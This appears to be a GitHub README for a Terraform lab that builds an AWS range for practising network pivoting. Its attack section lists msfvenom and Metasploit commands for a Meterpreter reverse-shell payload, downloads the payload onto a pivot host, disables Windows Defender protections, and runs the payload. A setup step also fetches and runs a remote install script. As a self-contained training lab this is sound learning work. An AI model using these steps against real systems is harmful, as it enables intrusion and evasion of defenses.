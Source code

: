 # SANS Pivot Cheat Sheet Lab
This serves as a tool for cybersecurity enthusiasts to better understand pivoting through an environment. The central reference is the [SANS Pivot Cheat Sheet](https://www.sans.org/posters/pivot-cheat-sheet/). Some code used from Terraform's [HashiCorp Learn platform](https://learn.hashicorp.com/tutorials/terraform/cloud-init?in=terraform/provision).

## Dependencies
- [AWS IAM Credentials](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_credentials_access-keys.html) to interact with an AWS account
- [AWS CLI](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html) installed
- [Terraform](https://www.terraform.io/downloads.html) installed

## Files
- Readme.md:    This file explains the repository
- main.tf:      Overall architecture of the Terraform project
- variables.tf: Contains values used in production
- output.tf:    Defines outputs requested from the build
- scripts/:     YAML config files for instances
- assets/:      Files copied to instances

## Steps
### Create Keys and Apply to YAML Configs
- `ssh-keygen -t rsa -C "your_email@example.com" -f ../tf-cloud-init`
- Look for `ssh_authorized_keys:` in the YAML files in `scripts/`. Replace the example public keys with the contents of your new `tf-cloud-init.pub`.  One-liner:
  - `sed -i "s:ssh-rsa.*$:$(cat ../tf-cloud-init.pub|tr -d '\n'):" ./scripts/*yaml`

### Set Default AWS Credentials
- Check to see what you have in your `~/.aws/credentials` file:
  - `cat ~/.aws/credentials`
- Set your current shell to use the right set:
  - `export AWS_PROFILE=Your-Favorite-IAM`

### Create the Range with Terraform
```
$ terraform init
[...]
Terraform has been successfully initialized!
[...]
$ terraform fmt
$ terraform validate
Success! The configuration is valid.
$ terraform apply
[...]
Do you want to perform these actions?
  Terraform will perform the actions described above.
  Only 'yes' will be accepted to approve.

  Enter a value: yes
[...]
Apply complete! Resources: 11 added, 0 changed, 0 destroyed.

Outputs:

linux_attack_private_ip = "10.1.1.1"
linux_attack_public_ip = "18.19.20.21"
linux_pivot_private_ip = "10.1.2.1"
linux_pivot_public_ip = "3.4.5.6"
linux_target_private_ip = "10.1.3.1"
linux_target_public_ip = "1.3.3.7"
sg_pivot = "sg-0123456789abcdef0"
vpc = "vpc-0123456789abcdef0"
$ terraform show #optional - to show assets and addresses again
```

### Optionally: Create a Windows Instance as Another Pivot
- From the AWS Console, Launch Instance
- Pick a Windows AMI - maybe Server 2022 (ami-0b9fc4f4583318dff)
- Next, then _t2micro_ is probably OK
- Next, then VPC from the Terraform output
- Set Auto-Assign public IP to _Enable_
- Set Primary IP addresses to _10.1.2.2_
- Next
- Next, then add tags like "Project:PivotPlay" and "Name:Windows-Pivot"
- Next, then pick the _sg_pivot_ security group
- Review, then _Launch_
- Create a new key and **save** them
- Once the new instance is up, select it in the Instances view and Connect using the key you just created
- Optionally, you can do this with the AWS CLI:
  - `aws ec2 create-key-pair --key-name pivot-labz --region us-east-2`
  - Save the private key to something like `../pivot-labz.pem` so you can get the instance password later
  - `aws ec2 describe-subnets --region us-east-2` # to get the subnet-id for the next command
  - `aws ec2 run-instances --image-id ami-0b9fc4f4583318dff --count 1 --instance-type t2.micro --key-name pivot-labz --security-group-ids sg-0123456789abcdef0 --subnet-id subnet-6e7f829e --region us-east-2`
  - Noting the instance-id created, get the password with `aws ec2 get-password-data --instance-id i-0123456789abcdef0 --priv-launch-key ../pivot-labz.pem --region us-east-2`

### Optional Windows Steps
- Install chocolatey package manager: `Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://community.chocolatey.org/install.ps1'))`
- Install Nmap or other tools: `choco install nmap`

### Connect to the Attack Machine with the IP from the Terraform Output
- `ssh attack@AttackIPHere -i ../tf-cloud-init`
- If you've lost track of those IPs, just `terraform show` to see them again

### Maybe Perform Some Attacks!
- `attack $ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=eth0 LPORT=8888 -f exe -o helper.exe`
- `pivot PS> curl 10.1.1.1:8000/helper.exe -OutFile helper.exe`
- `attack $ msfconsole`
- `attack msf6> use exploit/multi/handler`
- `attack msf6> set payload windows/x64/meterpreter/reverse_tcp`
- `attack msf6> set LHOST eth0`
- `attack msf6> set LPORT 8888`
- `attack msf6> run`
- `pivot PS> Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true -DisableScriptScanning $true -EnableControlledFolderAccess Disabled -EnableNetworkProtection AuditMode -Force -MAPSReporting Disabled -SubmitSamplesConsent NeverSend`
- `pivot PS> .\helper.exe`

### All Done?
```
$ terraform destroy
[...]
Do you really want to destroy all resources?
  Terraform will destroy all your managed infrastructure, as shown above.
  There is no undo. Only 'yes' will be accepted to confirm.

  Enter a value: yes
[...]
Destroy complete! Resources: 11 destroyed.
$ terraform show #optional - to show assets and addresses again
```
